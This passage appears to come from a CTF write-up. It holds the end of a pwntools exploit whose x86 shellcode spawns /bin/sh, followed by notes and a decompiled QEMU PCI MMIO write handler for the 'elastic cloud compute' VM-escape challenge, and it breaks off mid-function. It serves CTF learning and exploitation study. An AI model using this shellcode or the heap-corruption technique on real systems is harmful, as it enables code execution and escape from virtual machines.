 ```python=
    r.send(p16(0x0))

    payload = "\x90"*0x18
    payload += asm("""
    mov esp,0x40404a00
    push 0x0068732f
    push 0x6e69622f
    mov eax,0xb
    mov ebx,esp
    xor ecx,ecx
    xor edx,edx
    int 0x80
    """)
    r.send(payload)
    r.interactive()

```
## From The Grill

### elastic cloud compute (memory) corruption

* It will use qemu-system-x86_64 to boot a vm
* It tells us, we need to do something with PCI device
* Then I found this [writeup](https://kitctf.de/writeups/hitb2017/babyqemu)
* Now we know that we need to exploit via `/sys/devices/pci0000:00/0000:00:04.0/resource0`
* Decompile qemu-system-x86_64 and look for mmio read write function.
* I only leveraged write funtion
* There is a buffer which is located at `0x1317940` and three kinds of operations
* You can `malloc` `free` `write` some chunks. And all the chunk will be on that buffer
* I list the write function here:
```c
void __fastcall OOO_mmio_write(__int64 a1, __int64 offset, __int64 value, unsigned int a4)
{
  unsigned int v4; // eax@1
  char n[12]; // [sp+4h] [bp-3Ch]@1
  __int64 v6; // [sp+10h] [bp-30h]@1
  __int64 v7; // [sp+18h] [bp-28h]@1
  __int16 v8; // [sp+22h] [bp-1Eh]@11
  int i; // [sp+24h] [bp-1Ch]@5
  unsigned int v10; // [sp+28h] [bp-18h]@1
  unsigned int v11; // [sp+2Ch] [bp-14h]@4
  unsigned int v12; // [sp+34h] [bp-Ch]@11
  __int64 v13; // [sp+38h] [bp-8h]@1

  v7 = a1;
  v6 = offset;
  *(_QWORD *)&n[4] = value;
  v13 = a1;
  v10 = ((unsigned int)a2 & 0xF00000) >> 20;
  v4 = ((unsigned int)a2 & 0xF00000) >> 20;
  if ( v4 == 1 )
  {
    free(*(&qword_1317940 + (((unsigned int)v6 & 0xF0000) >> 16)));
  }
  else if ( v4 == 2 )
  {
    v12 = ((unsigned int)v6 & 0xF0000) >> 16;
    v8 = v6;
    memcpy((char *)*(&qword_1317940 + (signed int)v12) + (signed __int16)v6, &n[4], a4);
  }
  else if ( !v4 )
  {
```